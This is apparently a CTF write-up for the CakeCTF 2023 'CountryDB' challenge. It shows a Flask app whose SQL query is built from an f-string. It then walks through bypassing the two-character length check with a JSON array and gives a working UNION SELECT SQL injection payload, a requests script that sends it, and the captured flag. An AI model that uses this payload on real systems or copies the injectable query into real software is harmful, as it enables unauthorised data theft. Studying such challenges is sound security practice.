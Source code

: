# CountryDB 

The challenge consists of a basic web application which allows to insert country code and returns the associated country name:

![overview](./country_db.png)

Let's look at the main application source code files:

`init_db.py`

```python
import sqlite3
import os

FLAG = os.getenv("FLAG", "FakeCTF{*** REDACTED ***}")

conn = sqlite3.connect("database.db")
conn.execute("""CREATE TABLE country (
  code TEXT NOT NULL,
  name TEXT NOT NULL
);""")
conn.execute("""CREATE TABLE flag (
  flag TEXT NOT NULL
);""")
conn.execute(f"INSERT INTO flag VALUES (?)", (FLAG,))

# Country list from https://gist.github.com/vxnick/380904
countries = [
    ('AF', 'Afghanistan'),
    ...
```

As we can see there is a table in the database containing the flag, almost sure that we need to obtain it through a sql injection

`app.py`

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    try:
        with sqlite3.connect('database.db') as conn:
            cur = conn.cursor()
            sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
            print(sql)
            cur.execute(sql)
            found = cur.fetchone()
        return None if found is None else found[0]
    except:
        flask.abort(400, f"INVALID INJECTION {sql} ")

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    print(f"req: {req}")
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    print(code)
    print(len(code))
    
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")
    
    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=False)
```

The application, in order to display the country associated to each code, requests the code itself through the `/api/search/` endpoint and performs some checks on the provided input:

```python 
if len(code) != 2 or "'" in code:
```

length of provided code should == 2 and no apostrophe should be inside it. So basically you cannot provide strings different from a country code (e.g. IT).

However this condition can be easily bypassed because there is no check on what `code` type actually is:

```python
>>> code = ["I can write anything i want", "and code length will be always two"] 
>>> len(code)
2
```

In python the length of an array is determined by the number of elements in the array itself:
we can send an array of two elements in order to construct the sql injection payload.

At this point, since we know how to bypass the check and our input will reach the `db_search(code)` function, we just need to understand how to set a valid payload.

```python
sql = f"SELECT name FROM country WHERE code=UPPER('{code}')"
```

The problem of sending an array is that we will need to escape the `[ ]` inside the `UPPER()` function, while at the same time it is necessary to close the `UPPER` function's parentheses ` ) `; after some attempts:

```json
{
    "code": ["", ") UNION SELECT * FROM flag --"]
}
```

which results in the query string:

```sql
SELECT name FROM country WHERE code=UPPER('['', ') UNION SELECT * FROM flag --']')
```

Note: the payload must be sent through an explicit post request, because the application input form is now allowing the user to insert a string whose length is greather than two:

```python
import requests

url = "http://countrydb.2023.cakectf.com:8020/api/search"

sql_injection = {
    "code": ["", ") UNION SELECT * FROM flag --"]
}

req = requests.post(url, json=sql_injection)

print(req.json())
```


    CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
